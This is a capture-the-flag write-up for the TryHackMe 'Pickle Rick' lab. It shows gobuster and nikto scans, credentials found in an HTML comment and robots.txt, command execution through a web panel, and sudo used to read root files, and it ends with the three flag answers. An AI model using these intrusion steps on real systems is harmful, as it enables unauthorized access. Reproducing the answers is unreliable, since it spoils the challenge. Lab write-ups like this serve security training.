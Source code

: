 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to AE CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#ae-ctf---tryhackme-april-2021)
***

# Pickle Rick

![Exfil Challenge](PickleRick.PNG)

### Challenge:
##### This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
##### 90 Points Total, 30 per question

### Solve:

Since this was a webserver challenge, the first step was to open the provided IP address (10.10.117.3) in a web browser. The landing page suggested that I need to gain access to the system and discover the 3 special ingredients (flags).

![Webpage](webpage.PNG)

Checking the source code of the web page was the next obvious choice. Hidden in the <body> tag was a <div> that contained a comment with the username.
  
```html
<!--Note to self, remember username! Username: R1ckRul3s-->
```
Great, half-way there! The next step is the getting the password. The challenge task suggests that 'dirbuster' should be used, so that was my next choice.

![dirb](dirb.PNG)

```bash
root@ip-10-10-150-158:~# gobuster dir -u http://10.10.117.3 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.117.3
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/21 15:19:50 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/04/21 15:19:50 Finished
===============================================================
```
Ok, these are some exciting results. Checking out the results, only the robots.txt contained anything that I would deem to be usefull. The page contained a single string:

```
Wubbalubbadubdub
```

Ok, I assume this is most likely the password. Lets try and ssh into the machine and see what we can find.

```bash
root@ip-10-10-150-158:~# ssh R1ckRul3s@10.10.117.3
R1ckRul3s@10.10.117.3: Permission denied (publickey).
```

That didn't work. Time to try something else. The attack VM contains a folder of tools for web, and included in that was a tool for Nikto. Checking the [Kali description](https://tools.kali.org/information-gathering/nikto) for Nikto, it says its an 'Open Source (GPL) web server scanner', that sounds exactly like ehat I need. Lets see if it turns up something interesting.

```bash
root@ip-10-10-150-158:~# nikto -h http://10.10.117.3
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.117.3
+ Target Hostname:    ip-10-10-117-3.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2021-04-21 15:35:30 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-21 15:35:39 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Bingo! Looks like there is a `/login.php` page, lets see what we've got.

![Login Page](LoginPage.PNG)

Using the username `R1ckRul3s` and password `Wubbalubbadubdub` granted access! Taking a look around, it looks like the page lands on the **Command Panel** tab, checking any of the other tabs just gives the same response:

![Command Panel](Command.PNG)

![Other Tabs](Tabs.PNG)

Assuming the command panel operates like the shell, I entered the **ls** command as a test and got some very interesting output:

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

However, trying to read any of the files using cat provided another road block. Disabled commands:

![Disabled Commands](Disabled.PNG)

Thankfully there's more than one way to read strings, by using **strings**! That got the first answer out of the way. I also read the **clue.txt** for hints on any other locations:

```bash
mr. meeseek hair
```
(clue.txt)
```bash
Look around the file system for the other ingredient.
```

Ok, where else could data be hidden. **whoami** shows that I'm a non-user account **www-data**. Since this is Rick's computer, he must have an account, lets see if there is anything on his account. In the home directory of the **rick** user, there is a file called **second ingredients**, using the same **strings** method as the first ingredient provided the second:

(/home/rick/"second ingredient")
```bash
1 jerry tear
```

2 out of 3 down, one more to go. My next step is root, CTFs always hide stuff in root. The **www-data** shouldn't have access to the root folder by default, so let's try and switch users. Performing **sudo su** to switch to any user doesn't seem to work, switchint ro **rick**, **ubuntu**, and **root** didn't go through. Let't just try using **sudo** to **ls** the root directory:

```bash
3rd.txt
snap
```

Paydirt! lets see what it says:

```bash
3rd ingredients: fleeb juice
```




### Flag

First ingredient:
```
mr. meeseek hair
```
Second ingredient:
```
1 jerry tear
```
Third ingredient:
```
3rd ingredients: fleeb juice
```
